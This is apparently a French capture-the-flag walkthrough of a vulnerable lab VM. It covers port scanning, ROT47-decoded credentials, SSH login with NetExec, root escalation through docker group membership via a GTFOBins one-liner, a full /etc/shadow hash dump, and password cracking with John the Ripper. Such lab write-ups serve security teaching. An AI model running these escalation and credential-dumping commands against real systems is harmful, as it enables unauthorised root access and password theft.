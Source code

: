 1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.74
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.74...100%
[+] Scan Nmap 192.168.56.74...100%

[+] 22/tcp open
[+] 80/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.74-tcp.html        |
==========================================================

```

&nbsp;

Allons voir ce qu’on trouve sur la page web

![Capture du 2025-02-04 21-23-24](https://github.com/user-attachments/assets/e3812316-2b3a-41c6-81d0-5e199c2f4fd9)


```
┌─[parrot@parrot]─[~]
└──╼ $curl http://192.168.56.74/

<!----------ROT47---------->  
</body>
</html>
```

&nbsp;

Allons déchiffrer `l'utilisateur` & `mot de passe` trouver précédemment

![decrypt_rot47](https://github.com/user-attachments/assets/361617c8-f81c-4cc7-83f1-3c8dc6aeb552)


```
D92:=6?5C2:shailendra
4J36CDA=@:E`:cybersploit1
```

&nbsp;

<span style="color: #dddddd;">🖥️</span> **NetExec**

Test en `SSH` des identifiants trouver

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $nxc ssh 192.168.56.74 -u shailendra -p cybersploit1
SSH         192.168.56.74   22     192.168.56.74    [*] SSH-2.0-OpenSSH_8.0
SSH         192.168.56.74   22     192.168.56.74    [+] shailendra:cybersploit1  Linux - Shell access!

```

&nbsp;

**<span style="color: #dddddd;">⚙️</span> GTFObin**

L’utilisateur est dans le groupe `docker`

```
[shailendra@localhost ~]$ id
uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

&nbsp;

Allons voir sur `GTFObins` si docker peut nous être utiles

![Capture du 2025-02-08 12-28-35](https://github.com/user-attachments/assets/950121af-0aab-49df-b2b6-a6ce686c41dc)


&nbsp;

Devenir root avec docker avec utilisateur `shailendra` grâce au `GTFObin`

```
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
1f3e46996e29: Pull complete 
Digest: sha256:56fa17d2a7e7f168a043a2712e63aed1f8543aeafdcee47c58dcffe38ed51099
Status: Downloaded newer image for alpine:latest
sh-4.4# bash -i
[root@98e99a67f8c0 /]# 
```

&nbsp;

Dump des `hash` utilisateur

```
[root@98e99a67f8c0 centos]# cat /etc/shadow
root:$6$3d795XDPRsC3pMSF$pQYqtqY2ffdd/RR5zNnEcPUO5JMmsDXU8LjsFFGoAB84UmNosxjgYC.OESYKfpNhaaU1H2dyQY.4g46Vp70As.:18458:0:99999:7:::
bin:*:18358:0:99999:7:::
daemon:*:18358:0:99999:7:::
adm:*:18358:0:99999:7:::
lp:*:18358:0:99999:7:::
sync:*:18358:0:99999:7:::
shutdown:*:18358:0:99999:7:::
halt:*:18358:0:99999:7:::
mail:*:18358:0:99999:7:::
operator:*:18358:0:99999:7:::
games:*:18358:0:99999:7:::
ftp:*:18358:0:99999:7:::
nobody:*:18358:0:99999:7:::
dbus:!!:18456::::::
systemd-coredump:!!:18456::::::
systemd-resolve:!!:18456::::::
tss:!!:18456::::::
polkitd:!!:18456::::::
unbound:!!:18456::::::
sssd:!!:18456::::::
sshd:!!:18456::::::
rngd:!!:18456::::::
centos:$6$bUk/Dj.L.IjunflB$CF2HPXKM6GE8QGaMXpWa7KcTeiPFqb4bHkrkXxvrhXaPtP740vCqMj7WT4QW82bOM3Lzr2YPuc2zr9dvSMrM61::0:99999:7:::
shailendra:$6$X27PMCgNpVKj2WTf$7Ug3MPhwOCmAAHSKuulv88y/THusEchwZDxSVS8lq2llavEKHKE1QmjleJVo35jflcaeJcdCy7paXZ3PcePyN1:18457:0:99999:7:::
apache:!!:18457::::::
```

&nbsp;

**<span style="color: #dddddd;">🧨</span> JohnTheRipper**

Crack du hash de utilisateur `centos`

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $john hash 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA512"
Use the "--format=HMAC-SHA512" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
1234             (centos)     
1g 0:00:00:01 DONE 2/3 (2025-02-04 22:06) 0.5617g/s 1780p/s 1780c/s 1780C/s 123456..john
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
┌─[parrot@parrot]─[~/Documents]
└──╼ $john --show hash 
centos:1234::0:99999:7:::

1 password hash cracked, 0 left
```

&nbsp;

Identifiant trouver

| Users | Passwords |
| --- | --- |
| centos | 1234 |
| shailendra | cybersploit1 |
